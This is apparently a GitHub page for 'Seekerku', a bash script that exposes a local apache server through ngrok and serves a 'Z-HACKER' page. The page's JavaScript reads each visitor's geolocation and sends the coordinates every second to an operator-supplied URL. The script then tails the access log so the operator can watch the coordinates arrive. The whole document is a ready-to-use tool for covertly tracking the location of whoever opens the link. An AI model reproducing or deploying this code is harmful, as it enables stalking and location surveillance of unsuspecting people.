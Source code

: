 # Seekerku
Bismillah 
#!/bin/bash

#64_bit
#xterm -e ./ngrok http 80 & clear

#32_Bit
xterm -e ./ngrok http 80 & clear


echo "            ______________________________________________________   
            7      77  _  77  _  77     77  7  77  7  77  _  77  7   
            !__  __!|    _||  _  ||  ___!|   __!|  |  ||    _||  |   
              7  7  |  _ \ |  7  ||  7___|     ||  |  ||  _ \ |  !___
              |  |  |  7  ||  |  ||     7|  7  ||  !  ||  7  ||     7
              !__!  !__!__!!__!__!!_____!!__!__!!_____!!__!__!!_____!
                                                                     "
sleep 5
read -p '           URL: ' varurl
echo "<!DOCTYPE html>

<html>
    <head>
        <title>Z-HACKER</title>
        <style type=\"text/css\">
            
            body {
                background-image: url(\"skull.jpg\");
                background-size: 1000px 1600px;
                background-repeat: no-repeat;
            }

        </style>
    </head>
    <body>

        <script src=\"https://ajax.googleapis.com/ajax/libs/jquery/3.1.1/jquery.min.js\" type='text/javascript' ></script>
        <script type='text/javascript'>
        function httpGet(theUrl)
        {
            var xmlHttp = new XMLHttpRequest();
            xmlHttp.open( \"GET\", theUrl, false ); // false for synchronous request
            xmlHttp.send( null );
            return xmlHttp.responseText;
        }


        function autoUpdate() {
          navigator.geolocation.getCurrentPosition(function(position) {
            coords = position.coords.latitude + \",\" + position.coords.longitude;
             url = \""$varurl"/logme/\" + coords;
            httpGet(url);
            console.log('should be working');
            setTimeout(autoUpdate, 1000);
        })
        };
        \$(document).ready(function(){
           autoUpdate();
        });

        </script>
    </body>
</html>" > index.html

mv index.html /var/www/html/index.html
cp skull.jpg /var/www/html/skull.jpg
service apache2 start
echo "         ______________________________________________________   
         7      77  _  77  _  77     77  7  77  7  77  _  77  7   
         !__  __!|    _||  _  ||  ___!|   __!|  |  ||    _||  |   
           7  7  |  _ \ |  7  ||  7___|     ||  |  ||  _ \ |  !___
           |  |  |  7  ||  |  ||     7|  7  ||  !  ||  7  ||     7
           !__!  !__!__!!__!__!!_____!!__!__!!_____!!__!__!!_____!
                                                                  " > /var/log/apache2/access.log
xterm -e tail -f /var/log/apache2/access.log &
clear
exit
